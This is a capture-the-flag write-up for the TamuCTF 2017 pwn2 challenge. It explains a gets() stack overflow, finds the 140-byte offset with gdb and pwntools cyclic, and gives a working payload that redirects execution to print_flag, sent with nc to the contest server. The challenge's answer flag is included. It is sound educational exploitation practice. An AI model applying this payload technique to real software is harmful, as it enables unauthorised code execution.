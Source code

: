 # [TamuCTF 2017](https://ctf.tamu.edu/)
### pwn2 - 100 Points

![Pwn2 challenge description](assets/1-pwn2_description.png)

We are given a source code file and a binary which is being run remotely.
Let's a analyze it with radare2:

```bash
$ wget https://ctf.tamu.edu/files/dacdf9d7951deede662f1b89e4ec2a90/pwn2
$ r2 pwn2
[0x08048450]> aaa		# Analyze
[0x08048450]> afl		# List functions found
.
.
0x0804854b    4 103          sym.print_flag
0x080485b2    1 84           sym.echo
0x08048606    1 36           sym.main
.
.
```

We can see similar functions to the previous pwning challenge, but there a complication here: if we look closely...

```bash
[0x080485c0]> s sym.print_flag 
[0x0804854b]> axt
[0x0804854b]>
```

We realize that **print_flag** function, which is responsible for printing the flag stored in **flag.txt**, is never called!  
Instead a new function named **echo** is called from **main** function.

![Pwn2 call in main function](assets/2-pwn2_call_echo_in_main.png)

Lets see what it does:

```bash
$ pdf @ sym.echo
```
![Pwn2 echo function content](assets/3-pwn2_echo_function.png)

Ok, so aparently it just prints back whatever you input before. But hey! To read your input it uses `gets` insecure function again!  That means we can write beyond the allocated memory for our input.
> "All right, but this case is not like the previous one! ([pwn1 challenge](../pwn1/pwn1.md)).  
> We do not want to change the value of a variable, but to call an existent function!"
> Is it possible?

Hell yeah! but to know how, we first need to understand how the stack is affected when calling a function (echo in this case).  
When a function is going to be called, some data is going to be pushed into the stack. Among other things one of the stuff is stored is the EIP register.

> "Why this register? Why is it special?"

The purpose of EIP register (or instruction pointer) is to indicate the CPU which instruction has to be executed after the current one. When the **echo** function finishes the CPU will need to continue the execution right after the call.  
Like this:

![Pwn2 Normal execution flow](assets/4-pwn2_normal_flow.png)    

And the stack will look like:

![Pwn2 Stack view on echo call](assets/5-pwn2_stack_view.png)    

Nice :v:!, looking at the stack we realize we could just write a bunch of bytes until we reach the **Saved EIP** value!

> Okay but ... how many bytes do we have to write?

Well, in this case we can calculate like `0x88h + 4d (ESP length) = 140d`, but I'll calculate another way too.  
Lets use gdb (GNU Debugger).

```bash
$ python -c 'print("A"*500)' > input.txt	# We generate a long string and save it in a text file.
$ gdb pwn2  # We open the binary with gdb.
(gdb) run < input.txt # Run the binary with the content of input.txt as input.
```

![Pwn2 GDB executing pwn2](assets/6-pwn2_gdb.png) 

We ran the binary with gdb and passed 500 "A"s as input.
That `0x41414141` means that we have overwritten EIP register with value "AAAA" and the process crashed when it tried to execute the instrucction of that address (obviously there is nothing there).

So now we could just create a custom string like "ABCDEF...." to figure out which part of the string is being used to overwrite the EIP ... OR we can use a script which generates it for us :grin:.

Now is when it comes the **pwntools** for python (to install just do `$ pip install pwntools`) and more specifically its
**cyclic** utility. **Cyclic** is able to generate a sequence of unique substrings of any length (4 by default).

Lets try it!

```bash
$ pwn cyclic 500 > input.txt				# Generate a string of 500 chars with unique substrings of 4 characters.
$ gdb pwn2
(gdb) run < input.txt
```

![Pwn2 GDB Executing pwn2](assets/7-pwn2_gdb_cyclic.png) 

To check that value we do:
```bash
$ pwn cyclic -l 0x6261616b
140
```

And finally, after 140 Characters we write a new address to continue the execution. Which address? the address of the **print_flag** function, of course! The new execution flow will look like this:

![Pwn2 Modified execution flow](assets/8-pwn2_modified_flow.png) 

Lets get our flag:
```bash
$ python -c 'print("A"*140 + "\x4b\x85\x04\x08")' | nc pwn.ctf.tamu.edu 4321 
Enter a word to be echoed:
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAK�
This function has been deprecated
gigem{D34D_FUNC_R1S1NG}
```

Answer: gigem{D34D_FUNC_R1S1NG}

### Complete video

<a href="https://asciinema.org/a/e8oyx42bm4nbs5stm33o4x24s?autoplay=1"><img src="https://asciinema.org/a/e8oyx42bm4nbs5stm33o4x24s.png" width="400"/></a>

### Tools used:

 * [radare2](https://github.com/radare/radare2) - To analyze the binary.
 * [gdb](https://www.gnu.org/software/gdb/) - For binary debugging.
 * [pwntools](https://github.com/Gallopsled/pwntools) and [cyclic](http://docs.pwntools.com/en/stable/util/cyclic.html#pwnlib.util.cyclic.cyclic) - To generate unique substrings.
 * [draw.io](https://www.draw.io/) - To draw some graphics.
 * [asciinema](https://asciinema.org) - To record the session.
